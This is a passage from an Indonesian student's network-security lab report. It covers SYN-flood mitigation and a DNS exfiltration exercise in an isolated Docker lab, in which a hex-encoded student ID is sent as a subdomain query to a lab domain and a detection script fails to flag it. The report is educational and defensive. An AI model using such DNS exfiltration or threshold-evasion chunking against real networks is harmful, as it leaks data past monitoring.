  * **Paket 2 (`Flags [S.]`)**: Server (`172.21.0.2:80`) merespons dengan menyetujui (`SYN-ACK`), mengirimkan sequence number-nya sendiri `1640417117` serta mengonfirmasi sequence klien (`ack 1827250215`).
  * **Paket 3 (`Flags [.]`)**: Klien membalas dengan konfirmasi `ACK` final (`ack 1`), menyelesaikan pembentukan sirkuit virtual TCP sebelum mengirimkan permintaan payload data `HTTP GET`.
* **Mekanisme Mitigasi (Sesuai Bagian B3)**:
  1. **Aktivasi TCP SYN Cookies (`net.ipv4.tcp_syncookies = 1`)**:
     Ketika antrean *SYN backlog* penuh, kernel server tidak lagi mengalokasikan blok memori status koneksi. Sebagai gantinya, server mengodekan informasi koneksi (termasuk timestamp dan MSS) ke dalam nilai *Initial Sequence Number* (ISN) pada paket `SYN-ACK`. Memori baru akan dialokasikan hanya setelah klien yang sah membalas dengan paket `ACK` valid yang memuat decoding cookie tersebut.
  2. **Rate Limiting via `iptables`**:
     Membatasi laju paket SYN per detik per IP address untuk mencegah kebanjiran trafik:
     ```bash
     iptables -A INPUT -p tcp --syn --dport 80 -m limit --limit 10/s --limit-burst 20 -j ACCEPT
     iptables -A INPUT -p tcp --syn --dport 80 -j DROP
     ```

---


## Tugas 7 (Pertemuan 7): DNS Exfiltration dan Deteksi Anomali Query

### 1. Perintah yang Dijalankan
```bash
# 1. Menjalankan compose lab DNS terisolasi b4-dns-exfil
docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml up -d

# 2. Mengubah NIM (24552011240) menjadi format hexadecimal
docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml exec attacker sh -c "echo -n 24552011240 | xxd -p"

# 3. Mengirimkan DNS query penyelundupan data (exfiltration) dengan payload hex sebagai subdomain ke DNS server lokal
docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131323430.k6.exfil.lab "@dns"

# 4. Memeriksa pencatatan riwayat query eksfiltrasi pada server dnsmasq (Bukti Screenshot 15)
docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml logs dns

# 5. Mendekode kembali payload hexadecimal menjadi plaintext NIM asli
docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml exec attacker sh -c "echo 3234353532303131323430 | xxd -r -p"

# 6. Menyimpan log query DNS dan menjalankan skrip deteksi anomali berbasis Python (Bukti Screenshot 16)
docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml logs dns | Set-Content -Encoding utf8 dns-k6.log
python kasus/k9-dns-detect/analisis_dns.py dns-k6.log

# 7. Menghentikan dan membersihkan container lab DNS
docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml down -v
```

### 2. Output Terminal Asli

* **Proses Encoding, Query Eksfiltrasi DNS, dan Log Server `dnsmasq`**:
```text
PS D:\File Kuliah\TUGAS\Keamanan Jaringan\UTS\01-sumber-lab> docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml up -d
[+] up 3/3
 Network k6_lab           Created
 Container k6-dns-1        Started
 Container k6-attacker-1   Started

PS D:\File Kuliah\TUGAS\Keamanan Jaringan\UTS\01-sumber-lab> docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml exec attacker sh -c "echo -n 24552011240 | xxd -p"
3234353532303131323430

PS D:\File Kuliah\TUGAS\Keamanan Jaringan\UTS\01-sumber-lab> docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131323430.k6.exfil.lab "@dns"
10.0.0.99

PS D:\File Kuliah\TUGAS\Keamanan Jaringan\UTS\01-sumber-lab> docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml logs dns
dns-1  | dnsmasq[1]: started, version 2.90 cachesize 150
dns-1  | dnsmasq[1]: DNS service limited to local subnets
dns-1  | dnsmasq[1]: compile time options: IPv6 GNU-getopt no-DBus no-UBus no-i18n no-IDN DHCP DHCPv6 no-Lua TFTP no-conntrack ipset no-nftset auth no-cryptohash no-DNSSEC loop-detect inotify dumpfile
dns-1  | dnsmasq[1]: warning: no upstream servers configured
dns-1  | dnsmasq[1]: read /etc/hosts - 9 names
dns-1  | dnsmasq[1]: query[A] 3234353532303131323430.k6.exfil.lab from 172.21.0.3
dns-1  | dnsmasq[1]: config 3234353532303131323430.k6.exfil.lab is 10.0.0.99
dns-1  | dnsmasq[1]: query[A] 3234353532303131323430.k6.exfil.lab from 172.21.0.3
dns-1  | dnsmasq[1]: config 3234353532303131323430.k6.exfil.lab is 10.0.0.99
```

* **Decode Payload NIM & Eksekusi Skrip Deteksi Anomali**:
```text
PS D:\File Kuliah\TUGAS\Keamanan Jaringan\UTS\01-sumber-lab> docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml exec attacker sh -c "echo 3234353532303131323430 | xxd -r -p"
24552011240

PS D:\File Kuliah\TUGAS\Keamanan Jaringan\UTS\01-sumber-lab> docker compose -p k6 -f b/b4-dns-exfil/docker-compose.yml logs dns | Set-Content -Encoding utf8 dns-k6.log

PS D:\File Kuliah\TUGAS\Keamanan Jaringan\UTS\01-sumber-lab> python kasus/k9-dns-detect/analisis_dns.py dns-k6.log
Jumlah query per domain induk:
  exfil.lab: 2

Query mencurigakan (label panjang berisi hex):
```

### 3. Bukti Tangkapan Layar


### 4. Analisis Teknis & Pembahasan Deteksi DNS Tunneling
* **Label Hex yang Terdeteksi di Log `dnsmasq`**:
  Pada berkas `dns-k6.log`, tercatat eksplisit entri kueri yang membawa label hex NIM mahasiswa (`3234353532303131323430`, panjang 22 karakter) menuju domain kasus `k6.exfil.lab`:
  ```text
  dns-1  | dnsmasq[1]: query[A] 3234353532303131323430.k6.exfil.lab from 172.21.0.3
  ```
* **Mekanisme DNS Exfiltration**:
  Protokol DNS (UDP port 53) umumnya diizinkan melewati firewall keluar (*egress filtering*) karena esensial untuk resolusi nama domain sistem. Pelaku ancaman (*attacker*) mengeksploitasi celah ini dengan mengonversi data rahasia (pada uji lab ini berupa NIM mahasiswa `24552011240`) menjadi format aman URL/hexadecimal (`3234353532303131323430`), kemudian menyisipkannya sebagai label subdomain pada kueri DNS (`<hex-payload>.k6.exfil.lab`). Ketika kueri tersebut sampai ke server DNS otoritatif penyerang, payload diekstraksi dari string kueri dan direkonstruksi kembali ke teks asli (`24552011240`) tanpa pernah memicu deteksi firewall transmisi HTTP/FTP konvensional.
* **Evaluasi & Batasan Skrip Deteksi Heuristik (`analisis_dns.py`)**:
  * Skrip analisis berhasil mem-parsing log dan mengidentifikasi **2 query** menuju domain induk `exfil.lab`.
  * Namun, pada seksi *Query mencurigakan*, skrip tidak memunculkan peringatan. Hal ini terjadi karena skrip menerapkan aturan ambang batas statis (*hardcoded threshold*) `BATAS_PANJANG_LABEL = 30`. Payload NIM mahasiswa yang di-encode ke hex hanya menghasilkan **22 karakter**, sehingga memenuhi kondisi `len(label) <= 30`.
  * **Implikasi Keamanan Jaringan**: Temuan ini mendemonstrasikan secara nyata konsep *Threshold-based Evasion*. Sistem deteksi yang semata-mata mengandalkan batas panjang string (*string length rule*) rentan dilewati oleh penyerang yang memecah (*chunking*) data ke dalam potongan-potongan pendek di bawah ambang deteksi (*covert channel evasion*).
* **Rekomendasi Deteksi Komprehensif**:
  1. **Analisis Entropi Shannon (Shannon Entropy)**: Mengukur keacakan distribusi karakter. Subdomain normal (misal `mail`, `api`, `auth`) memiliki entropi rendah, sedangkan data terenkripsi atau ter-encode (hex/base64) memiliki entropi tinggi.
  2. **Frekuensi & Volume Query (Query Volume / TXT Record Profiling)**: Mendeteksi lonjakan query rekursif ke domain yang baru dibuat (*newly registered domain / high NXDOMAIN rate*).
  3. **Pemeriksaan Character Set**: Menandai query yang sub-labelnya 100% tersusun dari set karakter heksadesimal (`[0-9a-fA-F]`) meskipun panjangnya di bawah 30 karakter.

---

## Ringkasan Akhir & Verifikasi Seluruh Penugasan (Kasus 6)

| No | Modul Pertemuan | Topik Ujian | Status Eksekusi | Bukti Screenshot Terlampir |
|:---:|:---|:---|:---:|:---|
| 0 | Persiapan Environment | Build Docker Image Khusus (`uts-openssl`, `uts-kali-tools`, `uts-dnsmasq`) | **SELESAI (100%)** | `Verifikasi Docker Images.png` |
| 1 | Pertemuan 1 | Docker Volume Persistence & Jaringan Terisolasi | **SELESAI (100%)** | `Tugas 1 - 1. Persistensi Volume vol-k6.png`<br>`Tugas 1 - 2. Compose Up & Wget Jaringan Terisolasi.png` |
| 2 | Pertemuan 2 | Kriptografi Simetris AES-256-CBC, Digital Signature RSA, & Sertifikat X.509 | **SELESAI (100%)** | `Tugas 2 - 1. Integritas Hash SHA-256 (PowerShell Get-FileHash).png`<br>`Tugas 2 - 2. RSA Signature.png`<br>`Tugas 2 - 3. Informasi Sertifikat X.509.png` |
| 3 | Pertemuan 3 | ARP Cache Poisoning & Mitigasi Static ARP Table | **SELESAI (100%)** | `Tugas 3 - 1. Pemetaan IP & MAC Address 3 Container.png`<br>`Tugas 3 - 2. Tabel ARP Korban Kondisi NORMAL.png`<br>`Tugas 3 - 3. Tabel ARP Korban Kondisi TERINFEKSI (Poisoned).png`<br>`Tugas 3 - 4.  Mitigasi Static ARP (PERM).png` |
| 4 | Pertemuan 4 | WPA2 4-Way Handshake Analysis & Dictionary Cracking | **SELESAI DIEKSEKUSI (IDENTIFIKASI ARTEFAK DUMMY)** | `Tugas 4 - 1. Identifikasi Berkas Corrupt aircrack-ng.png`<br>*Analisis forensik pcap Python & rekonstruksi teoretis 4-Way Handshake lengkap* |
| 5 | Pertemuan 5 | Crafting Paket ICMP Scapy & Pembahasan Smurf Attack | **SELESAI (100%)** | `Tugas 5 - 1. ICMP Scapy Echo Reply.png` |
| 6 | Pertemuan 6 | TCP SYN Flood DoS & Analisis Three-Way Handshake via `tcpdump` | **SELESAI (100%)** | `Tugas 6 - 1. TCP SYN Flood SYN_RECV.png`<br>`Tugas 6 - 2. Three-Way Handshake tcpdump.png` |
| 7 | Pertemuan 7 | DNS Exfiltration Covert Channel & Deteksi Heuristik Log | **SELESAI (100%)** | `Tugas 7 - 1. DNS Exfiltration Query & Log dnsmasq.png`<br>`Tugas 7 - 2. Decode Payload NIM & Deteksi Log DNS.png` |

---
*Laporan praktikum UTS Keamanan Jaringan ini disusun secara mandiri dengan eksekusi lab aktual dan verifikasi menyeluruh.*
